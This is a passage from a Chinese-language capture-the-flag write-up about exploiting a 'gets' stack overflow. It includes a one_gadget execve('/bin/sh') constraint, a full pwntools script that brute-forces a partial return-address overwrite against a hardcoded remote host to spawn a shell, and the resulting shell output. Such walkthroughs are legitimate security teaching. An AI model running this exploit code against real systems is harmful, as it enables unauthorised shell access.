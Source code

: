 ```shell

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

```

使用如下 exp 繼續爆破，

```python
from pwn import *
context.terminal = ['tmux', 'split', '-h']
#context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
elfpath = './gets'
context.binary = elfpath

elf = ELF(elfpath)
bits = elf.bits


def exp(ip, port):
    for i in range(0x1000):
        if args['REMOTE']:
            p = remote(ip, port)
        else:
            p = process(elfpath, timeout=2)
        # gdb.attach(p)
        try:
            payload = 0x18 * 'a' + p64(0x40059B)
            for _ in range(2):
                payload += 'a' * 8 * 5 + p64(0x40059B)
            payload += 'a' * 8 * 5 + '\x16\02'
            p.sendline(payload)

            p.sendline('ls')
            data = p.recv()
            print data
            p.interactive()
            p.close()
        except Exception:
            p.close()
            continue


if __name__ == "__main__":
    exp('106.75.4.189', 35273)
```

最後獲取到 shell。

```python
$ ls
exp.py  gets
```

### 題目
